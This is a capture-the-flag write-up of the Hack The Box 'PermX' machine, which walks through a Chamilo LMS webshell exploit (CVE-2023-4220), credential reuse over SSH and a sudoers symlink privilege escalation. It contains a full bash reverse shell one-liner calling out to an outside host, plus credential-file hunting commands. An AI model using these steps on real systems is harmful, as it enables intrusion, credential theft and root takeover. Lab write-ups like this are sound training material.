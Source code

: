 # TL;DR

1. Ran nmap scan and found that there are two ports open on port 80 and port 22
2. Added domain to /etc/hosts and navigated to the site on port 80
3. Saw it was a static site and started to bruteforce directories and subdomains
4. Found a subdomain called lms.permx.htb and navigated to it
5. Found it led to a login screen for an LMS called Chamilo
6. Tried default creds and did not get anything 
7. Looked up vulnerabilities for Chamilo and found a POC to get a web shell
8. Ran the exploit, got a web shell, and then got a reverse shell
9. Rummaged through files and found a configuration.php file which contained creds for the LMS database
10. Used those creds for the local 'mtz' user on ssh and obtained a user shell
11. Used 'sudo -l' command and found a file called 'acl.sh' in the opt directory
12. Saw that 'acl.sh' can change perms for any file within the /home/mtz directory
13. Created symbolic link to the sudoers file and run the acl.sh script to give mtz user access to write into the file
14. Wrote ```mtz ALL=(ALL:ALL) NOPASSWD: /bin/su``` in the sudoers file
15. Ran ```sudo su``` and got root

# Detailed Writeup

To start off the box, I had ran this nmap command: nmap -vv -sVC -p- --min-rate=10000 -oA nmap/permx 10.10.11.23

Which gave me the following results:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

We can see that we have just two ports open: port 22 and port 80. Port 80 also shows the nmap is redirecting to http://permx.htb. I added this to ```/etc/hosts``` file and navigated to the site. 

During this time, I also looked into the vulnerabilities for the apache server version since it show up in the namap scan. I had found a vulnerability related to a HTTP smuggling request but I would need a form to start messing with something like that. That being said this is what the site looks like when you first navigate to it:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

I tried looking around for a form. I tried the contact form, but that was not sending any requests back to the server. I kept clicking around but still couldn't find anything. 

With that tried, I had started to bruteforce directories and subdomains with fuff. 

After running through that, I had found a subdomain: ```http://lms.permx.htb``` which led to an LMS called Chamilo, which is an open source LMS:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

In this next part, I should have starting looking for a way to find the version of Chamilo. But I went straight into finding a vulnerability which I do not advise. But I had gotten lucky and found a github page: ```https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS```, which had code that could scan if the given Chamilo site was vulnerable to the CVE. It was a somewhat recent CVE so I had assumed it would work and it did.

But the right way to go about this is to, again, try to identify the version of the LMS. This can be done if you bruteforce the directories where you would find a ```robots.txt``` file. There is a directory in it that has the documentation of the LMS which states which version it has. You would then go and lookup vulnerabilities for this version of Chamilo where you would find that github page. 

Here is the ```robots.txt``` and ```documentation directory``` respectively:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

But using that exploit from the github page, it gives you a link to the webshell on the server. I had give the webshell this reverse shell command url encoded: ```bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F9001%200%3E%261%27``` and used netcat to catch the shell. 

Here is the webshell page and catching the reverse shell respectively: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)
![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

Now that we have the webshell let's look around for configuration files. Reason being that we are trying to look for passwords and possible usernames that have been left around. We can try to use these creds on services like on SSH to get user access. You can find the users that can have a shell on the box with this command: ```cat /etc/passwd | grep "sh$"```

I used the command and found an ```mtz``` user:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

Now let's try to find those passwords. I used this command to find files that have configuration in their name: ```find /var/www/ -type f -name "*.conf"```

I ended up finding this directory: ```/var/www/chamilo/app/config/configuration.php``` where is contained the password for the LMS database. 

I tried to to use this password with the mtz user with ssh on the server was able to get user:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/Machines/PermX)

Once I got root I used the following command to see what files I could use without needing a password for sudo: ```sudo -l```

It show me a file directory: ```/opt/acl.sh```, which the code showed this:

```bash
#code here
```

The code itself checks for a designated file in the ```/home/mtz``` directory from an argument and changes the permissions of the file based off of arguments as well. This being case, I thought to try to create a symbolic link to the sudoers file using this command: ```ln -s /etc/sudoers ./sudoers.txt``` and then run the acl.sh script like such: ```/opt/acl.sh mtz rwx /home/mtz/sudoers.txt```

Once I did this I used vim to edit the sudoers file and added the following under the mtz user to able to switch to the root user:

```mtz ALL=(ALL:ALL) NOPASSWD: /bin/su```

After saving it I ran this command: ```sudo su``` and got root. 